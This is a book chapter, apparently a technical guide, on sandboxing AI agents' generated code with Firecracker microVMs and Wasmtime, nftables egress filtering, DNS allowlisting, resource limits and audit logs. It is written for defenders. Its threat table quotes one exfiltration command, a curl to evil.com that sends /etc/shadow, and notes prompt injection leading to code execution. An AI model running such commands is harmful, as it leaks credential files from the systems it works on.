




# Chapter 3: The Tool Execution Sandbox 🔴

> **The Problem:** Your agent just generated a Python script and wants to run it. The script might import `os`, call `subprocess`, open network sockets, or read `/etc/passwd`. Standard Docker containers share a kernel, are slow to cold-start, and have a history of container escapes. How do you execute arbitrary, untrusted, agent-generated code *safely*, *quickly*, and *at scale*?

---

## 3.1 Why This Is a Security-Critical Problem

When an AI agent can execute code, it becomes an **arbitrary code execution service open to the internet**. The threat model is severe:

| Threat | Example | Impact |
|---|---|---|
| **Data exfiltration** | `curl https://evil.com?data=$(cat /etc/shadow)` | Secret leakage |
| **Resource exhaustion** | `while True: pass` (CPU bomb) or `b"x" * 10**12` (memory bomb) | Denial of service |
| **Network pivoting** | Agent-generated code probes internal services | Lateral movement |
| **Filesystem escape** | Symlink attacks, `/proc` access | Host compromise |
| **Supply chain attack** | `pip install evil-package` in generated code | Arbitrary code from PyPI |
| **Prompt injection → RCE** | Crafted user input tricks the LLM into generating malicious code | Full compromise |

**The golden rule:** Assume every agent-generated script is adversarial.

---

## 3.2 Isolation Spectrum



### Detailed Comparison

| Dimension | Docker | gVisor | Firecracker MicroVM | Wasm (Wasmtime) |
|---|---|---|---|---|
| **Isolation boundary** | Linux namespaces (shared kernel) | User-space kernel (Sentry) | Hardware VM (KVM) | Linear memory sandbox |
| **Cold start** | 500 ms – 2 s | 300 ms – 1 s | **~125 ms** | **< 10 ms** |
| **Memory overhead** | ~50 MB | ~30 MB | **~5 MB** (minimal Linux) | **< 1 MB** |
| **Kernel attack surface** | Full syscall surface | ~200 syscalls intercepted | Tiny host interface (virtio) | Zero host syscalls |
| **Container escape CVEs** | Multiple (e.g., CVE-2024-21626) | Rare | None known (separate kernel) | None known (math-verified) |
| **Network control** | iptables/CNI | iptables/CNI | virtio-net with TAP filtering | **No networking by default** |
| **File system** | Bind mounts, overlayfs | Bind mounts (filtered) | virtio-blk (read-only rootfs) | Virtual FS (WASI) |
| **Language support** | Any | Any | Any (full Linux) | Compiled-to-Wasm (Rust, C, Python*) |
| **Best for** | Dev/test, trusted code | Multi-tenant SaaS | **Agent code execution** | **Lightweight, pure computation** |

\* Python in Wasm via [CPython compiled to Wasm](https://github.com/nicolo-ribaudo/pywasm) or [RustPython](https://rustpython.github.io/).

---

## 3.3 Architecture: The Sandbox Fleet



---

## 3.4 Firecracker MicroVM Deep Dive

### Why Firecracker?

[Firecracker](https://firecracker-microvm.github.io/) was built by AWS for Lambda and Fargate. It is a KVM-based virtual machine monitor that starts in ~125 ms with ~5 MB of memory overhead—fast enough to be ephemeral.

### Lifecycle of a Sandboxed Execution



### Warm Pool: Eliminating Cold Start

Starting a MicroVM from scratch takes ~125 ms. For interactive agents, even that feels slow. The solution: **snapshot-based warm pools**.

```rust
pub struct WarmPool {
    /// Pre-booted VMs ready for use
    idle: crossbeam_queue::ArrayQueue<MicroVm>,
    /// VMs currently executing code
    busy: DashMap<String, MicroVm>,
    /// Target pool size
    target_size: usize,
}

impl WarmPool {
    /// Claim an idle VM. If none available, boot a new one.
    pub async fn claim(&self) -> Result<MicroVm, SandboxError> {
        if let Some(vm) = self.idle.pop() {
            return Ok(vm);
        }
        // Fallback: cold-boot (adds ~125 ms)
        MicroVm::boot_from_snapshot(&self.base_snapshot).await
    }

    /// Return a VM after execution. Reset it to a clean state.
    pub async fn release(&self, mut vm: MicroVm) {
        // Restore from snapshot: wipes /scratch, resets memory, < 5 ms
        vm.restore_snapshot(&self.base_snapshot).await;
        let _ = self.idle.push(vm);
    }

    /// Background task: maintain pool at target_size.
    pub async fn replenish_loop(&self) {
        loop {
            while self.idle.len() < self.target_size {
                if let Ok(vm) = MicroVm::boot_from_snapshot(&self.base_snapshot).await {
                    let _ = self.idle.push(vm);
                }
            }
            tokio::time::sleep(Duration::from_millis(100)).await;
        }
    }
}
```

### Firecracker Jailer Configuration

```json
{
  "jailer": {
    "uid": 1000,
    "gid": 1000,
    "chroot_base_dir": "/srv/firecracker/vms",
    "seccomp_filter": "allowlist",
    "allowed_syscalls": [
      "read", "write", "close", "fstat", "mmap", "mprotect",
      "brk", "ioctl", "access", "execve", "exit_group",
      "clock_gettime", "getrandom", "futex"
    ],
    "cgroups": {
      "cpu.max": "100000 100000",
      "memory.max": "268435456",
      "pids.max": "64"
    }
  },
  "network": {
    "iface_id": "eth0",
    "guest_mac": "AA:FC:00:00:00:01",
    "host_dev_name": "tap0"
  },
  "drives": [
    {
      "drive_id": "rootfs",
      "path_on_host": "/srv/firecracker/rootfs/alpine-python.ext4",
      "is_root_device": true,
      "is_read_only": true
    }
  ]
}
```

---

## 3.5 WebAssembly (Wasm) Alternative

For **pure computation** (no file I/O, no network), Wasm is even faster and lighter.

### When to Use Wasm vs. Firecracker

| Use Case | Wasm | Firecracker |
|---|---|---|
| Math/data computation | ✅ (< 10 ms start) | Overkill |
| Python with `pip install` | ❌ (limited ecosystem) | ✅ |
| Code that needs networking | ❌ (no sockets by default) | ✅ (with egress filter) |
| Code that needs filesystem | Limited (WASI sandbox) | ✅ |
| Maximum throughput (executions/sec/host) | **10,000+** | **~200** |
| Startup latency | **< 10 ms** | **~5 ms** (snapshot restore) |

### Wasmtime Sandbox in Rust

```rust
use wasmtime::*;
use wasmtime_wasi::preview1::WasiP1Ctx;
use wasmtime_wasi::WasiCtxBuilder;

pub struct WasmSandbox {
    engine: Engine,
    linker: Linker<WasiP1Ctx>,
}

impl WasmSandbox {
    pub fn new() -> Result<Self, SandboxError> {
        let mut config = Config::new();
        config.consume_fuel(true);           // Deterministic execution limits
        config.epoch_interruption(true);     // Timeout support
        config.wasm_memory64(false);         // Cap at 4 GB

        let engine = Engine::new(&config)?;
        let mut linker = Linker::new(&engine);
        wasmtime_wasi::preview1::add_to_linker_sync(&mut linker, |ctx| ctx)?;

        Ok(Self { engine, linker })
    }

    pub async fn execute(
        &self,
        wasm_bytes: &[u8],
        stdin_data: &str,
        fuel_limit: u64,
        timeout: Duration,
    ) -> Result<ExecutionResult, SandboxError> {
        let module = Module::new(&self.engine, wasm_bytes)?;

        // Build a WASI context with NO real filesystem or network access
        let wasi_ctx = WasiCtxBuilder::new()
            .stdin(wasmtime_wasi::pipe::MemoryInputPipe::new(
                stdin_data.as_bytes().to_vec(),
            ))
            .stdout(wasmtime_wasi::pipe::MemoryOutputPipe::new(65536))
            .stderr(wasmtime_wasi::pipe::MemoryOutputPipe::new(65536))
            // No preopened directories — no filesystem access
            // No network — no socket access
            .build_p1();

        let mut store = Store::new(&self.engine, wasi_ctx);
        store.set_fuel(fuel_limit)?;

        // Epoch-based timeout
        let engine = self.engine.clone();
        let timeout_handle = tokio::spawn(async move {
            tokio::time::sleep(timeout).await;
            engine.increment_epoch();
        });

        let instance = self.linker.instantiate(&mut store, &module)?;
        let start = instance.get_typed_func::<(), ()>(&mut store, "_start")?;

        let result = start.call(&mut store, ());
        timeout_handle.abort();

        match result {
            Ok(()) => Ok(ExecutionResult {
                stdout: store.data().stdout().to_string(),
                stderr: store.data().stderr().to_string(),
                exit_code: 0,
                fuel_consumed: fuel_limit - store.get_fuel()?,
            }),
            Err(e) if e.to_string().contains("epoch") => {
                Err(SandboxError::Timeout)
            }
            Err(e) if e.to_string().contains("fuel") => {
                Err(SandboxError::FuelExhausted)
            }
            Err(e) => Err(SandboxError::RuntimeError(e.to_string())),
        }
    }
}
```

---

## 3.6 Network Egress Filtering

Even inside a MicroVM, unrestricted network access is dangerous. The agent could exfiltrate data, access internal services, or participate in a botnet.

### Defense in Depth



### nftables Rules

```bash
#!/usr/bin/env bash
# Egress filter for Firecracker MicroVM TAP devices

nft add table ip sandbox_filter
nft add chain ip sandbox_filter forward '{ type filter hook forward priority 0; policy drop; }'

# Allow established connections (responses to allowed requests)
nft add rule ip sandbox_filter forward ct state established,related accept

# Block cloud metadata endpoint (SSRF prevention)
nft add rule ip sandbox_filter forward ip daddr 169.254.169.254 drop

# Block all RFC1918 (internal network)
nft add rule ip sandbox_filter forward ip daddr 10.0.0.0/8 drop
nft add rule ip sandbox_filter forward ip daddr 172.16.0.0/12 drop
nft add rule ip sandbox_filter forward ip daddr 192.168.0.0/16 drop

# Allow DNS to controlled resolver only
nft add rule ip sandbox_filter forward ip daddr 10.0.0.53 udp dport 53 accept

# Allow HTTPS to allowlisted IPs (resolved at deploy time)
# These are populated by the sandbox manager from a config file
nft add rule ip sandbox_filter forward ip daddr @allowed_hosts tcp dport 443 accept

# Everything else: drop
```

### DNS Filtering

MicroVMs use a **controlled DNS resolver** that only resolves allowlisted domains:

```rust
/// A DNS resolver that only resolves domains on the allowlist.
pub struct FilteredDnsResolver {
    allowlist: HashSet<String>,
    upstream: SocketAddr,
}

impl FilteredDnsResolver {
    pub async fn resolve(&self, query: &DnsQuery) -> DnsResponse {
        let domain = query.name().to_lowercase();
        if !self.allowlist.contains(&domain) {
            return DnsResponse::nx_domain(query);
        }
        // Forward to real resolver
        self.forward_upstream(query).await
    }
}
```

---

## 3.7 Resource Limits Summary

| Resource | Limit | Enforcement |
|---|---|---|
| **CPU time** | 30 seconds (configurable per tool) | `SIGKILL` via timeout watchdog |
| **Memory** | 256 MB | cgroups `memory.max` (OOM kill) |
| **Disk** | 64 MB tmpfs (non-persistent) | tmpfs size limit |
| **Processes** | 64 | cgroups `pids.max` |
| **Network egress** | HTTPS to allowlisted domains only | nftables + filtered DNS |
| **Network bandwidth** | 1 Mbps | `tc` (traffic control) |
| **Wasm fuel** | 10 billion operations | Wasmtime fuel metering |

---

## 3.8 The Sandbox API

The orchestrator communicates with the sandbox fleet via a gRPC API:

```protobuf
syntax = "proto3";

service SandboxService {
  // Execute code in an isolated sandbox
  rpc Execute(ExecuteRequest) returns (ExecuteResponse);

  // Stream stdout/stderr in real-time
  rpc ExecuteStream(ExecuteRequest) returns (stream ExecuteEvent);
}

message ExecuteRequest {
  string code = 1;                    // Source code to execute
  string language = 2;                // "python", "javascript", "wasm"
  uint32 timeout_seconds = 3;         // Max execution time
  uint32 memory_limit_mb = 4;         // Max memory
  repeated string allowed_hosts = 5;  // Network egress allowlist
  map<string, string> env_vars = 6;   // Environment variables
  repeated FileMount files = 7;       // Files to inject (read-only)
}

message FileMount {
  string path = 1;
  bytes content = 2;
  bool writable = 3;
}

message ExecuteResponse {
  string stdout = 1;
  string stderr = 2;
  int32 exit_code = 3;
  uint64 execution_time_ms = 4;
  uint64 memory_peak_bytes = 5;
  ExecutionStatus status = 6;
}

enum ExecutionStatus {
  SUCCESS = 0;
  TIMEOUT = 1;
  OOM_KILLED = 2;
  RUNTIME_ERROR = 3;
  SANDBOX_ERROR = 4;
}

message ExecuteEvent {
  oneof event {
    string stdout_chunk = 1;
    string stderr_chunk = 2;
    ExecuteResponse final_result = 3;
  }
}
```

---

## 3.9 Scaling the Sandbox Fleet

### Capacity Planning

```
Assumptions:
- 10,000 concurrent agents
- 20% of ReAct steps involve code execution
- Average execution duration: 5 seconds
- Target: no agent waits > 500 ms for a sandbox

Steady-state sandbox demand:
  10,000 agents × 0.2 × (5s / 10s per step) = 1,000 concurrent executions

Warm pool size (with 20% headroom):
  1,000 × 1.2 = 1,200 MicroVMs

Per host (64 GB RAM, 32 vCPUs):
  64 GB / 256 MB per VM ≈ 250 VMs per host
  1,200 / 250 = 5 hosts for the sandbox fleet
```

### Auto-Scaling

| Signal | Action |
|---|---|
| Warm pool utilization > 80% | Scale up (add hosts, boot more VMs) |
| Warm pool utilization < 30% | Scale down (drain and terminate hosts) |
| P99 claim latency > 200 ms | Emergency scale-up |
| Sandbox error rate > 5% | Alert + investigate |

---

## 3.10 Audit Trail

Every sandbox execution is logged for forensic analysis:

```json
{
  "execution_id": "exec_abc123",
  "run_id": "run_xyz789",
  "agent_id": "agent_42",
  "user_id": "user_007",
  "language": "python",
  "code_sha256": "a1b2c3d4...",
  "status": "SUCCESS",
  "exit_code": 0,
  "stdout_bytes": 1234,
  "stderr_bytes": 0,
  "execution_time_ms": 2340,
  "memory_peak_bytes": 41943040,
  "network_egress_bytes": 0,
  "sandbox_type": "firecracker",
  "vm_id": "vm-007",
  "timestamp": "2026-04-01T10:35:22Z"
}
```

**Important:** The *code itself* is stored separately in an append-only log (e.g., S3 with Object Lock) for audit purposes. It is **never** logged in plaintext to stdout or observability systems, to avoid accidentally leaking user data.

---

> **Key Takeaways**
>
> 1. **Treat all agent-generated code as untrusted.** The sandbox is the last line of defense against prompt injection → RCE.
> 2. **Firecracker MicroVMs** provide hardware-level isolation with ~125 ms cold start and ~5 MB overhead—fast enough for interactive use with warm pools.
> 3. **WebAssembly (Wasmtime)** is ideal for pure computation: < 10 ms start, zero network surface, fuel-based deterministic limits.
> 4. **Network egress filtering** (nftables + filtered DNS + blocked metadata endpoints) prevents data exfiltration and SSRF.
> 5. **Defense in depth:** cgroups for resources, seccomp for syscalls, network filtering for egress, and audit logging for forensics.
